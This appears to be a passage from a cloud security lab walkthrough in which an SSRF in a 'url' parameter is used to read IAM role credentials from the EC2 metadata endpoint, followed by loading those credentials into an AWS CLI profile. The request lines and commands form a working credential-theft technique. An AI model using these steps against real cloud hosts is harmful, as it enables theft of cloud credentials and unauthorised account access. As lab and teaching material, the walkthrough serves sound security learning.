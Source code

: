 * Abuse the SSRF via the "_url_" parameter to hit the EC2 instance metadata by going to.

```bash
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

<p align="center">
  <img src="/images/cloud/ec2_ssrf_web.png">
</p>

```bash
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>
```

<p align="center">
  <img src="/images/cloud/ec2_metadata_web.png">
</p>

* Add the **ec2-role** Credentials to the AWS profile.

```bash
aws configure --profile ec2-role
```
